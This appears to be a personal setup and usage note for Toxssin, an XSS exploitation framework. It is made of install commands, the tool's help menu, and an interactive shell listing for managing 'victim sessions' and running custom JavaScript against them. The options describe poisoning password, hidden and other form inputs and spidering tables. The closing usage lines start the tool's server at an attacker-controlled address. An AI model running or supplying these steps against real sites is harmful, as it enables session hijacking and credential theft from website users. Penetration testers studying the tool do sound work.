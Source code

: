 # Toxssin

## Setup

### Install Dependencies

```
$ sudo apt install python3-ipython python3-pandas python3-validators
```

### Install Toxssin

- Run as root (without `sudo`)

```bash
git clone https://github.com/t3l3machus/toxssin /opt/exploitation/toxssin

cat << EOF > /usr/local/bin/toxssin
#!/bin/bash
cd /opt/exploitation/toxssin/
python3 toxssin.py \$*
EOF
chmod 755 /usr/local/bin/toxssin
```

## Help Menu

```
# toxssin -h
usage: toxssin.py [-h] -u URL -c CERTFILE -k KEYFILE [-p PORT] [-s SCRIPT_NAME] [-e ELEMENTS] [-f FREQUENCY] [-a COOKIE_AGE] [-t] [-g] [-v] [-q]

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Your toxssin server URL (e.g., https://your.domain.com, https://127.0.0.1)
  -c CERTFILE, --certfile CERTFILE
                        Your certificate.
  -k KEYFILE, --keyfile KEYFILE
                        The private key for your certificate.
  -p PORT, --port PORT  Port number to start the local toxssin https server (default: 443). Careful! This option does not set the port in the payload or
                        the malicious URLs generated on start up automatically. If you want to use a non-standard port both for the server and the URLs
                        pointing to it, you must append it in the server URL as well (e.g., ./toxssin.py -u https://toxssin.com:9001 -p 9001 ...)
  -s SCRIPT_NAME, --script-name SCRIPT_NAME
                        Change JS handler script name (default: handler.js)
  -e ELEMENTS, --elements ELEMENTS
                        Html elements to poison (default: input[type='text'], input[type='password'], input[type='date'], input[type='email'],
                        input[type='datetime-local'], input[type='hidden'], input[type='number'], input[type='search'], input[type='url'],
                        input[type='radio'], input[type='checkbox'], select, textarea) *Forms, tables and file inputs are poisoned by default.
  -f FREQUENCY, --frequency FREQUENCY
                        Change html elements poisoning cycle frequency (default: 3000 ms)
  -a COOKIE_AGE, --cookie-age COOKIE_AGE
                        Toxssin cookie max age in days (default: 30)
  -t, --no-tables       Disable html tables spidering
  -g, --grab-poisoned   Identify and re-establish sessions sourcing from cached content (default: False)
  -v, --verbose         Verbose output (prepare for long stdout)
  -q, --quiet           Do not print the banner on startup
```

## Interactive Shell

```
toxssin > help

  Command                    Description
  -------                    -----------
  help                       Print this message.
  sessions                   Print all victim sessions data.
  active                     Print active session data (the one that is currently printing on stdout).
  activate <sid>             Change the active session by providing the session id.
  flush                      Delete all current sessions (reset).
  exec <JS file path> <sid>  Execute custom JS script against session by id.                  
  verbose                    Enable/disable verbose mode.
  clear/cls                  Clear screen.
  exit/quit/q                Terminate program.

  *All sessions are logged despite of which one is active.
```
## Usage

Note: you have to run this as root. Also I tested two vulnerable XSS types and they are **DOM-Based XSS** and **Stored XSS**. **Reflective XSS** doesn't work. 

`# openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365`

`# toxssin -u https://<attacker_IP> -c /absolute/path/to/cert.pem -k /absolute/path/to/key.pem`

---
## References

 - [Toxssin](https://github.com/t3l3machus/toxssin)